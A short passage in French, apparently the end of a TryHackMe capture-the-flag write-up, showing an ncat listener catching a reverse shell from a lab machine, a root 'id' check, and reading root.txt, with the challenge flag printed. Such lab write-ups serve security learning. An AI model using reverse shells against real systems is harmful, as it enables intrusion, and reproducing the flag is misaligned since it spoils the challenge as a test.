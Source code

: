 On exécute le reverse shell.   

```bash
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::3333
Ncat: Listening on 0.0.0.0:3333
Ncat: Connection from 10.10.65.148.
Ncat: Connection from 10.10.65.148:54838.
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
THM{464c29e3ffae05c2e67e6f0c5064759c}
```

On obtient un shell root, on lit le fichier root.txt dans root et on obtient un flag.   
Le flag est : THM{464c29e3ffae05c2e67e6f0c5064759c}    
